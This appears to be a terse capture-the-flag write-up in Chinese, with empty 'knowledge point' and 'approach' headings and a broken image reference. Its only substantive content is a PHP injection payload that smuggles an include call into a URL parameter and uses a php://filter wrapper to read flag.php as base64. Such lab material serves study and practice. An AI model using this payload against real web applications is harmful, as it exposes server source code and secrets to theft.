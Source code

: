 # 知识点
# 思路
与前体一样
```git
?c=include$_GET[a]?>&a=php://filter/convert.base64-encode/resource=flag.php
```
